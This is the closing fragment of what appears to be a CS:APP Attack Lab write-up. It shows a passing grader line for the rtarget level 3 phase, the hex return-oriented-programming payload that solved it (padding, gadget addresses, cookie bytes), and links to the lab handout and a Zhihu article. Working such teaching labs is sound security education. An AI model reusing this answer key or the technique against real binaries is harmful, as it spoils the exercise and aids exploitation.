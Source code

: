 ```shell
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
```

ALL OVER

## REF
1. https://csapp.cs.cmu.edu/3e/attacklab.pdf
2. https://zhuanlan.zhihu.com/p/476396465